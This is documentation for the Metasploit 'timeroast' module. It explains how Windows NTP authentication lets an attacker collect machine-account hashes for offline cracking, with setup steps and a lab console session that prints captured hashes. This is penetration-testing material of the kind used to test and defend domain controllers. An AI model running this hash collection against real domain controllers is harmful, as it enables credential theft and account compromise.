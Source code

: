 ## Vulnerable Application
Windows authenticates NTP requests by calculating the message digest using the NT hash followed by the first
48 bytes of the NTP message (all fields preceding the key ID). An attacker can abuse this to recover hashes
that can be cracked offline for machine and trust accounts. The attacker must know the accounts RID, but
because RIDs are sequential, they can easily be enumerated.

## Verification Steps

1. Setup a Windows domain controller target
1. Start msfconsole
1. Use the `auxiliary/admin/dcerpc/samr_account` module to create a new computer account with the `ADD_COMPUTER` action
   1. Note the RID (the last part of the SID) and password of the new account
1. Use the `auxiliary/scanner/ntp/timeroast` module
1. Set the `RHOSTS` option to the target domain controller
1. Set the `RIDS` option to the RID of the new account
1. Run the module and see that a hash is collected, this has will show up in the output of the `creds` command if a
  database is connected

## Options

### RIDS
The RIDs to enumerate (e.g. 1000-2000). Multiple values and ranges can be specified using a comma as a separator.

## Scenarios

### Windows 2019 x64 Domain Controller

```
msf auxiliary(scanner/ntp/timeroast) > set RIDS 4200-4205
RIDS => 4200-4205
msf auxiliary(scanner/ntp/timeroast) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(scanner/ntp/timeroast) > run
[*] Checking RID: 4200
[*] Checking RID: 4201
[+] Hash for RID: 4201 - 4201:$sntp-ms$74e3c4ac73afe868119ff98613888d48$1c0100e900000000000a2c704c4f434ceb0aaf8ac9813bd40000000000000000eb0aea216d99a558eb0aea216d99e010
[*] Checking RID: 4202
[+] Hash for RID: 4202 - 4202:$sntp-ms$e106388a43f6bbd5365e3a6f2dee741d$1c0100e900000000000a2c704c4f434ceb0aaf8ac78c5c9a0000000000000000eb0aea21bb83de46eb0aea21bb8442f0
[*] Checking RID: 4203
[*] Checking RID: 4204
[+] Hash for RID: 4204 - 4204:$sntp-ms$d0b1961cc3d57a1eaa40bfeeb9f30eb9$1c0100e900000000000a2c704c4f434ceb0aaf8ac653c2f50000000000000000eb0aea222a6c25c3eb0aea222a6c6a8c
[*] Checking RID: 4205
[*] Waiting on 3 pending responses...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ntp/timeroast) >
```
